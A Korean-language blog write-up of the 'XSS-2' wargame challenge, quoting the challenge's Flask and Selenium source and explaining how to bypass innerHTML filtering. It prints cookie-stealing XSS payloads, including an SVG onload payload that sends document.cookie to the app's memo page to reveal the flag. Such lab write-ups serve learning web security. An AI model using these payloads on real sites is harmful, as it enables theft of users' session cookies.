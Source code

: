 ```yaml
---
title:  "XSS-2"
excerpt: "XSS-2"
categories:
  - wargame
tags:
  - wargame
  - Webhacking
last_modified_at: 2022-09-03
toc: true
toc_sticky: true
---
```


# Question info.
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

# Function analysis
![XSS-2_1](/assets/images/wargame/XSS-2_1.png)  

![XSS-2_2](/assets/images/wargame/XSS-2_2.png)  

![XSS-2_3](/assets/images/wargame/XSS-2_3.png)  

![XSS-2_4](/assets/images/wargame/XSS-2_4.png)  

이번엔 XSS-1과 다르게 vuln(xss) page에 Alert가 뜨지 않는다.   
코드는 같다.
``vuln?param=<script>alert(1)</script>``  
memo 링크를 클릭하면 hello가 입력된다.  
``memo?memo=hello``  
flag 링크를 클릭하면 인자를 입력하는 페이지가 나온다.

# Code analysis
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)

```

이번에도 XSS-1과 동일하게 Selenium을 사용했다.     
chromedriver를 이용해서 서버쪽에 크롬창을 띄우고 내가 원하는 주소로 이동시킬 수 있을 것 같다.  
``driver.get("http://127.0.0.1:8000/")``  
서버 측에 브라우저를 연다.

전반적으로 XSS-1의 코드와 유사하다.   
다만, XSS-1 때의 우회 방법이 먹히질 않는다.






# Solve

우선 XSS-1의 코드와 유사하고 그 때의 방법으로는 뚫을 수 없다.
```javascript
<script>window.location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;</script>
```

innerHTML로 처리하기 때문에 ``<script>`` 태그가 먹히지 않는다는 것이다.

``그냥 <script> 태그를 쓰지 않고 스크립트를 실행시키는 방법을 쓰면 된다. 나의 경우 <SVG/onload>를 이용했다.``

![XSS-2_5](/assets/images/wargame/XSS-2_5.png)  

flag 페이지에서 파라미터로  

```javascript
<SVG/onload=window.location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;>
```

을 넣으면 된다.

![XSS-2_6](/assets/images/wargame/XSS-2_6.png)  

memo 페이지로 가서 확인해보면 flag값이 나와 있다.

이 방법 말고도 img태그나 a태그 등 다양한 방법이 존재한다.






